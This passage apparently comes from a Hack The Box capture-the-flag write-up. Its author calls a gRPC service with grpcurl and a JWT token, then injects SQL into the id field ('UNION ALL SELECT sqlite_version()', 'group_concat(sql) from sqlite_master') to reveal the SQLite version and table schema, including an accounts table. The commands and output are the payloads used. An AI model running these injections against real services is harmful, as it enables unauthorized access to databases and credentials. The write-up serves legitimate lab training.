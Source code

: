 ```
grpc-accept-encoding: identity, deflate, gzip

Response contents:
{
  "message": "Your id is 380."
}

Response trailers received:
token: b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiem9uem9uIiwiZXhwIjoxNjg0NzA3MzQxfQ.FVMh8_QlEjtStXzT9jseWz_767ax0aFtWJk9LguzlG4'
```

Supplying the JWT token and an `id` parameter, I received some output!
```
┌──(root㉿dragon)-[~/htb/pc]
└─# ./grpcurl -H 'token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiem9uem9uIiwiZXhwIjoxNjg0NzA3MzQxfQ.FVMh8_QlEjtStXzT9jseWz_767ax0aFtWJk9LguzlG4' -d '{"id": "1"}' -plaintext 10.129.227.161:50051 SimpleApp.getInfo
{
  "message": "The admin is working hard to fix the issues."
}
```

Considering how this method functions, it likely takes the `id` number and passes it to a database to retrieve information about the corresponding user. [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection) offers an injection table for identifying the type of database running in the background. I successfully executed an injection to retrieve the database version using `UNION ALL SELECT sqlite_version()`. The use of `UNION ALL` enables us to execute another `SELECT` statement, giving us the ability to fetch other data from the database, such as its version
```
┌──(root㉿dragon)-[~/htb/pc]
└─# ./grpcurl -H 'token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiem9uem9uIiwiZXhwIjoxNjg0NzA3MzQxfQ.FVMh8_QlEjtStXzT9jseWz_767ax0aFtWJk9LguzlG4' -d '{"id": "0 UNION ALL SELECT sqlite_version()"}' -plaintext 10.129.227.161:50051 SimpleApp.getInfo

{
  "message": "3.31.1"
}
```

Next, my objective was to enumerate other tables within the database. I leveraged the `group_concat()` function, which aggregates all rows into a single record. This enabled me to retrieve and print out the names of all the tables in the database.
```
┌──(root㉿dragon)-[~/htb/pc]

└─# ./grpcurl -H 'token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiem9uem9uIiwiZXhwIjoxNjg0NzA3MzQxfQ.FVMh8_QlEjtStXzT9jseWz_767ax0aFtWJk9LguzlG4' -d '{"id": "0 UNION ALL SELECT group_concat(sql) from sqlite_master"}' -plaintext 10.129.227.161:50051 SimpleApp.getInfo

{

  "message": "CREATE TABLE \"accounts\" (\n\tusername TEXT UNIQUE,\n\tpassword TEXT\n),CREATE TABLE messages(id INT UNIQUE, username TEXT UNIQUE,message TEXT)"

}
```
